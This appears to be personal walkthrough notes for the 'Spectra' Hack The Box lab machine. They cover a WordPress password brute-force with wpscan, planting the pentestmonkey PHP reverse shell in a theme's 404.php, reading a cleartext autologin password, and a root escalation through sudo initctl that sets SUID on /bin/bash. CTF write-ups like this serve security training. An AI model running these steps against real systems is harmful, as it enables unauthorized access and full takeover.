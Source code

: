# Spectra

/etc/hosts spectra.htb

**Port 80** 

1. Jira
``` bash 
curl -s 10.10.10.229 | grep -i "jira" 1>/dev/null && echo "OK"
```

2. WordPress 
``` bash 
curl -s http://spectra.htb/main/ | grep -i "wordpress" 1>/dev/null && echo "OK"
wpscan --url http://spectra.htb/main/ -e u
wpscan --url http://spectra.htb/main/ 
wpscan --url http://spectra.htb/main --passwords ~/Downloads/rockyou.txt --usernames user -t 50
```

3. dir
``` bash
wfuzz -c -z file,/opt/node-dirbuster/lists/directory-list-2.3-medium.txt --hc 404 http://spectra.htb/FUZZ
```
user : user (wp)
user: user (db)


### dir

> main
*wp*

> testing 
*index-of*

> files 
wp-admin/                                          
wp-content/                                       
wp-includes/                                       
index.php                                          
license.txt                                        
readme.html                                        
wp-activate.php                                    
wp-blog-header.php                                 
wp-comments-post.php                               
wp-config.php                                      
wp-config.php.save
wp-cron.php                                        
wp-links-opml.php                                  
wp-load.php                                        
wp-login.php                                       
wp-mail.php                                        
wp-settings.php                                    
wp-signup.php                                    
wp-trackback.php                                   
xmlrpc.php 


**PORT 22** 

failed access 


**PORT 3306** 


1. reverse shell - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
2. http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php


> connect with user no db, failed 

```
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```



cat /etc/issue
```
Developer Console
To return to the browser, press:

  [ Ctrl ] and [ Alt ] and [ <- ]  (F1)

To use this console, developer mode must be enabled.
Doing so will destroy any saved data on the system.

In developer mode, it is possible to
- login and sudo as user 'chronos'
- require a password for sudo and login(*)
- disable power management behavior (screen dimming):
  sudo initctl stop powerd
- install your own operating system image!

* To set a password for 'chronos', run the following as root:

chromeos-setdevpasswd

If you are having trouble booting a self-signed kernel, you may need to
enable USB booting.  To do so, run the following as root:

enable_dev_usb_boot

Have fun and send patches!
```

**LinPeas**

bash-4.3$ cat /etc/autologin/passwd
cat /etc/autologin/passwd
user:user

grupos? 
sudo?

NOPASSWD(initctl)

sudo -u root /sbin/initctl list

vim /etc/init/test.conf 
script 
	chmod +s /bin/bash
end script